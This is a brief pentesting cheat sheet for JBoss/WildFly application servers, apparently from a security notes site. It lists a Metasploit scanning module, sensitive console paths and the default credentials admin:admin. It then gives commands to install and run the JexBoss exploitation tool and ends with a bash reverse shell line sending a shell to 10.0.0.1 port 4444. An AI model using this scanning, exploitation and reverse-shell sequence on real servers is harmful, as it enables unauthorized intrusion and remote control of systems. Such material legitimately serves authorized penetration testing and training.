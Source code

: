 ```yaml
---
title: JBOSS Pentesting
description: JBOSS AS (Application Server), also known as WildFly, is an application server which is written in Java.
tags:
    - Web
date: 2023-03-29
refs:
draft: false
---
```


## Enumeration

```sh
msfconsole
msf > use auxiliary/scanner/http/jboss_vulnscan
```

<br />

## Common Directories

```txt
/admin-console/
/invoker/JMXInvokerServlet
/jbossws/
/jmx-console/
/jmx-console/HtmlAdaptor
/management
/manager
/status?full=true
/web-console/
/web-console/Invoker
/web-console/ServerInfo.jsp
```

<br />

## Default Credentials

```txt
admin:admin
```

<br />

## Exploitation

[JexBoss](https://github.com/joaomatosf/jexboss) is available as an exploitation CLI tool.

```bash
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip3 install -r requirements.txt
python3 jexboss.py -host https://example.com:8080

# Reverse Shell
Shell> /bin/bash -i > /dev/tcp/10.0.0.1/4444 0>&1 2>&1
```